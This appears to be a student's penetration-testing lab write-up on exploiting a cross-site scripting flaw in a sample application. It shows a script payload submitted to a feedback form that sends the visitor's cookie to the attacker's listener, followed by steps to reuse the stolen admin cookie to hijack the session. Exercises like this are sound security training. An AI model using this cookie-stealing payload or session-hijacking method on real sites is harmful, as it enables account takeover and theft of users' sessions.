



### 9.4.2.5 Exercises
#### 1. Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.

- Submitted to http://192.168.216.10/feedback.php

  ```html
  <script>new Image().src="http://192.168.119.216/cool.jpg?output="+document.cookie;</script>
  ```

- Used admin_login.ps1 script provided in lab as-is to simulate admin login

- Admin User Client Request in NetCat
  

- Modified cookie in browser on attacker machine
  

- Visited URL http://192.168.216.10/admin.php
  

#### 2. Consider what other ways an XSS vulnerability in this application might be used for attacks.

- Exploit Java/browser vulnerabilities
- Keystroke loggers
- Phishing attacks
- Port scanning
- Content scrapers/skimmers

#### 3. Does this exploit attack the server or clients of the site?

Client-side exploit